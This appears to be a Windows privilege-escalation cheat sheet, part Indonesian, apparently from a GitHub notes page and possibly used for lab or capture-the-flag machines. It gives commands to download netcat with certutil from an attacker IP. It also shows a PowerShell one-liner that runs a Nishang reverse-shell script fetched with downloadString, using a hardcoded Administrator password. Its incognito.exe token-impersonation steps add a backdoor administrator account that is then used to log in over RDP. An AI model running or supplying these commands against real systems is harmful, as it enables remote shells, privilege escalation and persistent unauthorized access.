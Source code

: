 ## Check System Info --
~# systeminfo

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" %tmp%\nc.exe

## Download File From PowerShell) -- 

(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  

## Reverse Shell With Nishang To Get Powershell --

## Windows  Exploit Suggester --

##Run Nishang As Administrator to get root! -- 
We must get low shell with nishang. Then run this command

Requirement : SeChangeNotifyPrivilege       Bypass traverse checking             Enabled

Check : whoami /all
PRIVILEGES INFORMATION                                                                                                                                                                                                            [319/687]
----------------------                                                                                                                                                                                                                     
                                                                                                                                                                                                                                           
Privilege Name                Description                          State                                                                                                                                                                   
============================= ==================================== ========                                                                                                                                                                
SeShutdownPrivilege           Shut down the system                 Disabled                                                                                                                                                                
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  <<---                                                                                                                                                            
SeUndockPrivilege             Remove computer from docking station Disabled                                                                                                                                                                
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled                                                                                                                                                                
SeTimeZonePrivilege           Change the time zone                 Disabled 

Then run this command
$SecPass = ConvertTo-SecureString -AsPlainText -Force 'Welcome1!' 
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
Start-Process -Filepath "powershell" -argumentlist "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowershellTcp.ps1')" -Credential $cred

## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user bisa di impersonate cek di CMD :
$ whoami /priv
pastikan seDebugPrivilege dan SeImpersonatePrivilege enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)

Jika RDP tersedit maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`
